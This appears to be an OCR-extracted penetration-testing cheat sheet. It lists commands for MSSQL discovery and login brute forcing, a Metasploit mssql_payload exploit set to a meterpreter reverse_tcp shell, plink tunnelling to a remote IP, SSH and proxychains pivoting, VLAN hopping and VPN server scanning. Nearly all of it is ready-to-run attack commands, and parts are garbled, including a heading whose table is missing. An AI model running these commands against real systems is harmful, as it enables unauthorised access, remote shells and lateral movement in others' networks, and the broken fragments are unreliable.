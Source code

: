 	MSSQL

		Enumeration / Discovery:

		Nmap:
			nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156

		M	etasploit:
			msf > use auxiliary/scanner/mssql/mssql_ping

		Use MS SQL Servers Browse For More
			Try using "Browse for More" via MS SQL Server Management Studio
		
		Bruteforce MSSQL Login
			msf > use auxiliary/admin/mssql/mssql_enum

		Metasploit MSSQL Shell
			msf > use exploit/windows/mssql/mssql_payload
			msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp

	Network
		Plink.exe Tunnel

	PuTTY Link tunnel
		Forward remote port to local address:
			plink.exe -P 22 -l root -pw "1337" -R 445:127.0.0.1:445 REMOTE-IP

	Pivoting
		SSH Pivoting
		ssh -D 127.0.0.1:1010 -p 22 user@pivot-target-ip
		Add socks4 127.0.0.1 1010 in /etc/proxychains.conf

	SSH pivoting from one network to another:
		ssh -D 127.0.0.1:1010 -p 22 user1@ip-address-1
		Add socks4 127.0.0.1 1010 in /etc/proxychains.conf
		proxychains ssh -D 127.0.0.1:1011 -p 22 user1@ip-address-2
		Add socks4 127.0.0.1 1011 in /etc/proxychains.conf
	
	Meterpreter Pivoting
		TTL Finger Printing
		Operating System 	TTL Size

### VLAN Hopping

Using NCCGroups VLAN wrapper script for Yersina simplifies the process.

git clone https://github.com/nccgroup/vlan-hopping.git
	chmod 700 frogger.sh
	./frogger.sh 

#### VPN Pentesting Tools

Identify VPN servers:
	./udp-protocol-scanner.pl -p ike TARGET(s)

Scan a range for VPN servers:
	./udp-protocol-scanner.pl -p ike -f ip.txt

